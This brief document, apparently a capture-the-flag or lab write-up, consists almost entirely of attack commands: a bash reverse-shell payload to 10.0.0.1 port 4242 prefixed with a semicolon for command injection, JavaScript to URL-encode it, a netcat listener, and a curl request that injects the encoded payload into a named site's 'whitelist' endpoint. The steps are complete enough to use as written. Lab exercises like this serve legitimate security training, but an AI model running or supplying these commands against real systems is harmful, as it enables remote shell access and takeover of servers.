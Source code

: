 Reverse shell :

```sh
;/bin/bash -l > /dev/tcp/10.0.0.1/4242 0<&1 2>&1
```

Convert to url (JS) :

```js
encodeURIComponent(";/bin/bash -l > /dev/tcp/10.0.0.1/4242 0<&1 2>&1")
```

Listen with netcat

```sh
nc -lvp 4242
```

```sh
curl https://cyber.ndl.nponsard.net/whitelist/%3B%2Fbin%2Fbash%20-l%20%3E%20%2Fdev%2Ftcp%2F127.0.0.1%2F4242%200%3C%261%202%3E%261
```
